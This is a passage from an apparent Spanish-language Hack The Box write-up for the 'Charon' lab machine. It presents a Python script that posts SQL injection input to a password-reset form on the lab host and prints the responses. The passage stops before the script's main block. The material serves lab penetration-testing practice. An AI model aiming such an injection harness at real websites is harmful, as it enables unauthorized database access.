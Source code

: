 ![](/assets/images/htb-charon/charon-web5.png)

Para trabajar de una forma más cómoda y poder realizar pruebas, vamos a generar un script en python que nos permita realizar las consultas que necesitemos.

```python
#!/usr/bin/python3
#coding:utf-8

import signal, sys, time, requests, re
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://10.10.10.31/cmsdata/forgot.php"

def makeRequest(sqli_data):
    try:
        post_data = {
            "email" : "%s" % sqli_data.strip()
        }
        r = requests.post(url, data=post_data)
        response = re.findall(r'h2.*',r.text)[0].split('>')[1].lstrip()
        log.info(response)
    except:
        log.failure("Ha ocurrido un error!")

if __name__ == '__main__':
```
